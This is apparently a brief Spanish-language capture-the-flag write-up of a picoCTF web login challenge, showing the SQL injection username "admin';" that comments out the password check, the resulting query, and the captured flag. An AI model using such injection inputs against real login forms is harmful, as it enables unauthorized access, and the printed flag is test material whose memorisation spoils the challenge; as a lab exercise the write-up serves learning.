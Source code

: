 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
## Hints
- The password is being filtered.
## Solución

![[Pasted image 20230314085141.png]]
```
username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}

```

## Notas Adicionales



## Referencias